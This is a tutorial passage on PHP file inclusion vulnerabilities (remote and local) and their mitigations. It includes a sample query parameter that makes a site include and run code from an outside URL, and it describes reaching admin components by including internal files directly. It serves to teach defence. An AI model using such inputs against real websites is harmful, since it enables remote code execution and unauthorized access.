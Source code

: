 # FILE INCLUSION BUGS
Consider this URL: `http://example.com/index.php?page=home`. Changing the query to `?page=test` gives you the following error embedded in the page:
`Warning: include(test.php): failed to open stream: No such file or directory in - on line 26`
It seems to be calling the `include()` function on the page you reference + '`.php`'. If this can change what is on the server, it has a *file inclusion vulnerability*. What if we change the query to: 
`?page=http://demoseen.com/test`

Suddenly it's making a web request to `http://demoseen.com/test.php` --  any code that's contained in that file is going to be executed by the site in question. Including code on the fly based on user input without *very strict whitelisting* will very likely result in file inclusion bugs.
PHP (and other languages/frameworks) will in many cases be configured not to allow web requests from an `include()` and the like. When they are possible, you have **RFI** -- when they're not, you're looking at **LFI**.

Often applications written such that authorization checks happen in a different file than the actual logic. So, in this scenario, going to `?page=admin` might give you a login prompt for an admin area, but `?page=admin_users` might give you direct access to the user management component for instance.
### MITIGATION
The safest way to handle this is to *not* have user input driven into `include()` and the like *whatsoever*. This is the *only way to make sure this bug will not occur*.
Otherwise, **whitelisting is essential**. This should be *as strict as possible without restricting functionality, to prevent odd edge-cases*.
In the case that neither of these is viable, then *removing directory separators may be the only route*. This is **not recommended**, but will prevent URLs and directory traversal.
At this point, your filesystem is the effective whitelist, so it's rare that this is a good choice, but it does work. 
# FILE UPLOAD BUGS
